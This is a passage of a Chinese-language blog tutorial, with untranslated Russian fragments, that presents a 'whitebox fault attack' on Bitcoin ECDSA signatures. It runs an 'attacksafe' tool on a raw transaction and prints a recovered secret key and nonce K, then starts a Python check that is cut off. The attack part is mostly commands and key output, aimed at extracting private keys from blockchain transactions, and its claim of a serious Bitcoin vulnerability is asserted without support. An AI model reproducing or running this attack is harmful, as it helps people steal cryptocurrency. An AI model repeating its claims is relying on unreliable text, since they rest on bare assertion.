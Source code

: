<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool whitebox_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-47-1024x262.png" alt="我們根據Eli Biham和Adi Shamir的研究方案，對比特幣進行差分錯誤白盒攻擊，提取秘鑰" class="wp-image-1649"/></figure>



<p>我們發起了這次攻擊<code>-tool whitebox_attack</code>並將結果保存到一個文件中<code>SecretKey.txt</code></p>



<p>現在看到成功的結果，打開文件<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-46-1024x374.png" alt="我們根據Eli Biham和Adi Shamir的研究方案，對比特幣進行差分錯誤白盒攻擊，提取秘鑰" class="wp-image-1647"/></figure>



<pre class="wp-block-code"><code>Deployments ECDSA:

SecretKey = 0xa402dc224f712e09602b06c595f272f3028a6a6f6ef174708aac8121c40e8545

RawTX = 0100000001794e79fc042a7644cc4deb6e7858416dd8b898fe418b2894f8d3772ce8d132a0180000006a473044022048771a103dbc561b895d573a9b706b98f643701466de15980fa712b544554ba502202756e42292c841ccfef832138c52f66f7e03b7f2f86cf3fb4d7fd43d6a526be701210262c3a8791c0e44cd389ebe51c156b5aac490cddef3536638abf8863d55190adbffffffff010c03000000000000232103d68f90ba81455256cb7a0df14fb3930d6df61393207f2f3e71659414d296e0f0ac00000000</code></pre>



<p>我們看到一個銘文<code>"Deployments ECDSA"</code>，表示比特幣區塊鏈交易中存在嚴重漏洞。</p>



<p><code>SecretKey значение в формате HEX, это и есть наш секретный ключ "K" (NONCE):</code></p>



<p><code>K = 0x39ec5220d3937da589231cbaa5b04002ce3b5689173680ee110ef81287f7867e</code></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2>讓我們用<em>Python</em>腳本檢查一下<code>point2gen.py</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p><a href="https://pypi.org/project/ECPy/" target="_blank" rel="noreferrer noopener"><strong>讓我們使用ECPy</strong></a>橢圓曲線庫：</p>



<p>現在讓我們通過指定運行腳本<code>&nbsp;секретный ключ "K" (NONCE)</code>：</p>
